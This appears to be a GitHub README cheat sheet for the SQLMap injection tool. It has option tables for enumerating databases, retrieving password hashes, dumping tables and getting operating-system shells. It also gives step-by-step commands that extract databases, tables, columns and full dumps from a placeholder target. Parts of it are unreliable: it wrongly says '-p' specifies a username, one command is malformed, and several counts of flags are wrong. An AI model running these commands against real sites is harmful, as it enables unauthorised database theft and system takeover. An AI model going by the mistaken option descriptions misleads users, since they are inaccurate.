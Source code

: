 # SQLMap
SQLMap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

# Sqlmap Commands
To show the basic help menu, simply type sqlmap `-h` in the terminal.

## Basic commands
|      Options      | Description                                           |
| :---------------: | :---------------------------------------------------- |
| -u URL, --url=URL | Target URL (e.g. "http://www.site.com/vuln.php?id=1") |
|    --data=DATA    | Data string to be sent through POST (e.g. "id=1")     |
|  --random-agent   | Use randomly selected HTTP User-Agent header value    |
| -p TESTPARAMETER  | Testable parameter(s)                                 |
|   --level=LEVEL   | Level of tests to perform (1-5, default 1)            |
|    --risk=RISK    | Risk of tests to perform (1-3, default 1)             |

## Enumeration commands
These options can be used to enumerate the back-end database management system information, structure, and data contained in tables.

|     Options     | Description                                |
| :-------------: | :----------------------------------------- |
|    -a, --all    | Retrieve everything                        |
|  -b, --banner   | Retrieve DBMS banner                       |
| --current-user  | Retrieve DBMS current user                 |
|  --current-db   | Retrieve DBMS current database             |
|   --passwords   | Enumerate DBMS users password hashes       |
|      --dbs      | Enumerate DBMS databases                   |
|    --tables     | Enumerate DBMS database tables             |
|    --columns    | Enumerate DBMS database table columns      |
|    --schema     | Enumerate DBMS schema                      |
|     --dump      | Dump DBMS database table entries           |
|   --dump-all    | Dump all DBMS databases tables entries     |
|    --is-dba     | Detect if the DBMS current user is DBA     |
|  -D <DB NAME>   | DBMS database to enumerate                 |
|   --dbms=DBMS   | Force back-end DBMS to this value          |
| -T <TABLE_NAME> | DBMS database table(s) to enumerate        |
|     -C COL      | DBMS database table column(s) to enumerate |

## Operating System access commands
These options can be used to access the back-end database management system on the target operating system.

|    Options     | Description                                           |
| :------------: | :---------------------------------------------------- |
|   --os-shell   | Prompt for an interactive operating system shell      |
|    --os-pwn    | Prompt for an OOB shell, Meterpreter or VNC           |
| --os-cmd=OSCMD | Execute an operating system command                   |
|   --priv-esc   | Database process user privilege escalation            |
| --os-smbrelay  | One-click prompt for an OOB shell, Meterpreter or VNC |

Note that the tables shown above aren't all the possible switches to use with sqlmap. For a more extensive list of options, run sqlmap `-hh` to display the advanced help message.

## Authentication commands
For specifying a username you can use the `-p` switch followed by the parameter name. For example, if the username is `admin`, you can use `-p admin`.

# Examples
## Testing
### Simple HTTP GET Based Test
```bash
sqlmap -u https://testsite.com/page.php?id=7 --dbs
```
Here we have used two flags: `-u` to state the vulnerable URL and `--dbs` to enumerate the database.

### Simple HTTP POST Based Test
Save the POST data possibly gathered using Burp Proxy in a file named `req.txt` and run the following command

```bash
# sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
sqlmap -r req.txt -p blood_group --dbs
```

Here we have used two flags: `-r` to read the file, `-p` to supply the vulnerable parameter, and `--dbs` to enumerate the database.

## Enumerate Database Tables
### Using GET based Method

```bash
sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables
```

### Using POST based Method

```bash
sqlmap -r req.txt -p blood_group -D blood --tables
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
```

## Enumerate Database Columns
### Using GET based Method

```bash
sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns
```

### Using POST based Method

```bash
sqlmap -r req.txt -D blood -T blood_db --columns
sqlmap -r req.txt -D <database_name> -T <table_name> --columns
```

## Dump all available databases and tables
### Using GET based Method

```bash
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all
sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all
```

### Using POST based Method

```bash
sqlmap -r req.txt -D <database_name> --dump-all
sqlmap -r req.txt-p  -D <database_name> --dump-all
```